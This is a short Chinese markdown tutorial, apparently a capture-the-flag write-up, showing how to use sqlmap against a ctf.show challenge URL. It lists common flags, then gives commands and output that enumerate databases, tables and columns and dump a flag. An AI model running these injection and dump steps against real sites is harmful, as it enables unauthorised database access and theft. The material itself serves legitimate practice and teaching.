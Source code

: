 # sqlmap使用

<br>

* 常用参数


````
常用参数
--dbs 所有数据库
--tables 所有表
--columns 所有列

````

<br>

### 第一步：开始脚本注入

<br>


* 使用sqlmap -u url来进行注入

例：

sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id="

<br>

### 第二步：查表

执行上述命令后得到注入成功的回显然后可以进行查库操作

<br>

如上述命令执行后得到

````

available databases [7]:                                                                                                                                                                                    
[*] ctfshow
[*] ctftraining
[*] information_schema
[*] mysql
[*] performance_schema
[*] security
[*] test

````

<br>

* 接下来可以查看指定库的所有表：sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow --tables

* 得到回显


````
Database: ctfshow
[1 table]
+------+
| flag |
+------+

````

* 到这里就说明查询到表flag了，接下来使用: sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow -T flag --columns

````

Database: ctfshow                                                                                                                                                                                           
Table: flag
[2 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(255) |
| id     | int(11)      |
+--------+--------------+


````

* 接下来使用直接dump出来: sqlmap -u "http://d96b8b94-0e30-4e6a-810b-caf654fe2b02.challenge.ctf.show/?id=" -D ctfshow -T flag --dump

````
Database: ctfshow
Table: flag
[1 entry]
+----+-----------------------------------------------+
| id | flag                                          |
+----+-----------------------------------------------+
| 1  | ctfshow{cd6650cb-4523-49ee-8251-bcbf145e920c} |
+----+-----------------------------------------------+
````